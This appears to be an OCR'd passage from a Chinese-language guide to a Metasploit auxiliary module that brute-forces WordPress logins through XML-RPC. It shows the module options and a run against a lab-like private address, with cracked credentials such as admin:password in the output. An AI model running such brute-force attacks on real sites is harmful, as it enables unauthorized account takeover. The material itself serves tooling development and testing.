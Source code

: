 +   检查模块是否已正确编写（msftidy.rb）

```
metasploit-framework/tools/dev/msftidy.rb wordpress_xmlrpc_massive_bruteforce.rb 
```

**运行它**

```
msf auxiliary(wordpress_xmlrpc_massive_bruteforce) > show options 

Module options (auxiliary/scanner/http/wordpress_xmlrpc_massive_bruteforce):

   Name         Current Setting                                                                 Required  Description
   ----         ---------------                                                                 --------  -----------
   BLOCKEDWAIT  6                                                                               yes       Time(minutes) to wait if got blocked
   CHUNKSIZE    1500                                                                            yes       Number of passwords need to be sent per request. (1700 is the max)
   Proxies                                                                                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST        172.17.0.3                                                                      yes       The target address
   RPORT        80                                                                              yes       The target port
   TARGETURI    /                                                                               yes       The base path
   VHOST                                                                                        no        HTTP server virtual host
   WPPASS_FILE  /home/KING/Code/MSF/metasploit-framework/data/wordlists/http_default_pass.txt   yes       File containing passwords, one per line
   WPUSER_FILE  /home/KING/Code/MSF/metasploit-framework/data/wordlists/http_default_users.txt  yes       File containing usernames, one per line

msf auxiliary(wordpress_xmlrpc_massive_bruteforce) > run

[*] Checking 172.17.0.3:80 status!
[*] Target 172.17.0.3:80 is running WordPress
[*] Brute forcing user: admin
[+] Credentials Found! admin:password
[*] Brute forcing user: manager
[*] Brute forcing user: root
[*] Brute forcing user: cisco
[*] Brute forcing user: apc
[*] Brute forcing user: pass
[*] Brute forcing user: security
[*] Brute forcing user: user
[*] Brute forcing user: system
[+] Credentials Found! system:root
[*] Brute forcing user: sys
[*] Brute forcing user: wampp
[*] Brute forcing user: newuser
[*] Brute forcing user: xampp-dav-unsecure
[*] Auxiliary module execution completed 
```
